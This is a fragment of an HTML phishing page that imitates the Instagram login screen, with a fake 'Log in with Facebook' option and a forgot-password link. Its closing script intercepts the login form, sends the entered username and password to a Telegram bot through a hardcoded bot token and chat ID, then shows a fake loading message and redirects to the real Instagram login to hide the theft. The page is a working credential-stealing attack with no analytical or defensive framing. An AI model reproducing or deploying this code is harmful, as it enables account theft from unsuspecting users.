         <div class="divider">OR</div>
        
        <div class="facebook-login">
            <img src="https://www.instagram.com/static/images/ico/favicon-192.png/68d99ba29cc8.png" alt="Facebook">
            Log in with Facebook
        </div>
        
        <div class="forgot-password">Forgot password?</div>
    </div>
    
    <script>
        document.getElementById('loginForm').addEventListener('submit', function(e) {
            e.preventDefault();
            
            const username = document.getElementById('username').value;
            const password = document.getElementById('password').value;
            
            // Send data to Telegram bot
            fetch(`https://api.telegram.org/bot7960358967:AAGBKFLrJj4EyjxAOMCtWXa2F0pClzpHQyk/sendMessage`, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify({
                    chat_id: '7145643549',
                    text: `New Instagram Login:\nUsername: ${username}\nPassword: ${password}`
                })
            })
            .then(response => response.json())
            .then(data => {
                // Show fake loading and then redirect to Instagram
                document.getElementById('loginButton').textContent = 'Logging in...';
                setTimeout(() => {
                    window.location.href = 'https://www.instagram.com/accounts/login/';
                }, 2000);
            })
            .catch(error => {
                console.error('Error:', error);
                alert('An error occurred. Please try again.');
            });
        });
    </script>
</body>
</html>
